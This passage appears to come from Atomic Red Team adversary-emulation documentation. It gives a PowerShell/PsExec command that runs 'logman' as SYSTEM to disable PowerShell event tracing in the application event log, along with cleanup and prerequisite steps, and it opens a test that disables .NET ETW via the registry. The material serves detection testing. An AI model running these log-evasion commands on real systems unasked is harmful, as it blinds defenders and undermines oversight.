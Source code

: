



#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ps_exec_location | Location of PSExec. | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;pstools&#92;PsExec.exe|
| session | The session to disable. | string | EventLog-Application|
| provider | The provider to disable. | string | Microsoft-Windows-Powershell|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
cmd /c "#{ps_exec_location}" -accepteula -i -s cmd.exe /c logman update trace "#{session}" --p "#{provider}" -ets
```

#### Cleanup Commands:
```powershell
cmd /c "#{ps_exec_location}" -i -s cmd.exe /c logman update trace "#{session}" -p "#{provider}" -ets
```



#### Dependencies:  Run with `powershell`!
##### Description: PSExec must be installed on the machine.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{ps_exec_location}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PStools.zip"
expand-archive -literalpath "PathToAtomicsFolder\..\ExternalPayloads\PStools.zip" -destinationpath "PathToAtomicsFolder\..\ExternalPayloads\pstools" -force
```




<br/>
<br/>

## Atomic Test #6 - Disable .NET Event Tracing for Windows Via Registry (cmd)
Disables ETW for the .NET Framework using the reg.exe utility to update the Windows registry
